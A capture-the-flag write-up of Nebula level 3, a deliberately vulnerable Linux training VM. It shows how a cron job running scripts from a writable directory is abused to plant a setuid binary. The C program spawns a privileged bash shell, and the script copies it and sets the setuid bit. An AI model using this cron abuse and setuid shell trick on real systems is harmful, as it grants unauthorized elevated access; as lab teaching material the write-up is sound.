 ```yaml
---
title: "Writeup: Nebula (level 3)"
date: 2020-12-18T12:06:53+08:00
draft: false
---
```


Nebula is a virtual machine that covers a variety of challenges about Linux privilege escalation, scripting language issues, and file system race conditions. It is available at [Exploit Exercises](https://exploit-exercises.lains.space/).

<br>

## Level 3

The description of Level 3 is provided as follows. 

```
Check the home directory of flag03 and take note of the files there.

There is a crontab that is called every couple of minutes.

To do this level, log in as the level03 account with the password level03. 
Files for this level can be found in /home/flag03.
```

As you can see, there are one shell script and one directory in /home/flag03. 

![](https://github.com/chuang76/image/blob/master/03-1.PNG?raw=true)

Let's check the contents of writable.sh. It runs each file in the directory writable.d. 

```
#!/bin/sh
for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

According to the hint, there is a crontab in the system. [Cron](https://en.wikipedia.org/wiki/Cron) (cron job) is a time-based job scheduler in Unix-based systems. It provides the user to run the jobs (commands or shell scripts) at fixed times. Its configure table, crontab (cron table), is used to specify the shell command to run periodically on a given schedule. We can check the contents of crontab in /etc directory. 

![](https://github.com/chuang76/image/blob/master/03-6.PNG?raw=true)

Let's check the cron mechanism with a simple experiment. Create a shell script in the writable.d while the shell script is going to create a file named "test" in /home/flag03. As you can see, after two minutes, a file named "test" was created in /home/flag03 indeed. 

![](https://github.com/chuang76/image/blob/master/03-2.PNG?raw=true)

So, to get the flag, we can create a shell script again, which executes our exploit program, in the writable.d. Since /tmp directory is world-writable. We can write our exploit program and compile it in /tmp. It is the same as the exploit program in [Level 1](https://chuang76.github.io/posts/nebula_p1/). 

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char** argv)
{
    gid_t gid = getegid();
    uid_t uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    system("/bin/bash");
}
```

![](https://github.com/chuang76/image/blob/master/03-3.PNG?raw=true)

Also, the shell script named run.sh contains the following commands. 

```
cp /tmp/vul /home/flag03/vul 
chmod u+s /home/flag03/vul
```

After a couple of minutes, cron runs the jobs (include shell scripts) in the system. Therefore, an executable named `vul` exists in /home/flag03. Besides, due to chmod command previously executed, we have the permission to run vul. 

![](https://github.com/chuang76/image/blob/master/03-4.PNG?raw=true)

Now, let's run this exploit executable to control the bash of the account flag03. 

![](https://github.com/chuang76/image/blob/master/03-5.PNG?raw=true)

